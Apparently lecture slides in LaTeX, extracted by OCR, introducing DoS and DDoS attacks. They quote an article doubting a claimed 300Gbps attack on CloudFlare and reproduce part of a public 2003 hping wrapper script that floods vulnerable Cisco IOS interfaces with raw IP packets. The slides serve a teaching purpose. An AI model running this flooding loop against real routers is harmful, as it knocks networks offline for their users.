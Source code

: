 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{quote}
CloudFlare CEO Matthew Prince said he was sure of the 300Gbps figure, pointing to an online comment from Richard Steenbergen, CTO of nLayer, one of the upstream network providers of CloudFlare. Although Steenbergen said the company saw a 300Gbps hit going after CloudFlare, which targeted "pieces" of the core network, it was nothing "record smashing" or "game changing"

Actual data proving a 300Gbps hit remains thin on the ground. Hammack said his firm had not seen anything above 160Gbps in a single DDoS, with 144 million packets sent per second, and he doesn't believe there has been one higher. He won't be convinced otherwise unless someone shows him proof one organisation's network took more traffic in an attack.
\end{quote}

Source: Prolexic CEO: Biggest Cyber Attack Ever Was Built On Lies\\
{\footnotesize
{}}

 mm
\centerline{Ohhh only 160Gbps \smiley }



\centerline{}


\begin{list1}
\item What are DDoS? and DoS?
\item Denial of Service attack - prevents authorized users access to resources
\item Can be a single request to HTTP service, sequence of network packets
\item Distributed Denial of Service attack - many (spoofed) sources
\item {}
\end{list1}


\centerline{Source: }


\begin{alltt}
\small
#!/bin/sh
# 2003-07-21 pdonahue
# cisco-44020.sh
# -- this shell script is just a wrapper for hping (http://www.hping.org)
#    with the parameters necessary to fill the input queue on
# exploitable IOS device
# -- refer to "Cisco Security Advisory: Cisco IOS Interface Blocked by
# IPv4 Packets"
# (http://www.cisco.com/warp/public/707/cisco-sa-20030717-blocked.shtml)
#for more information
...
for protocol in $PROT
    do
       $HPING $HOST --rawip $ADDR --ttl $TTL --ipproto $protocol \\
       --count $NUMB --interval u250 --data $SIZE --file /dev/urandom
    done

\end{alltt}
\end{document}
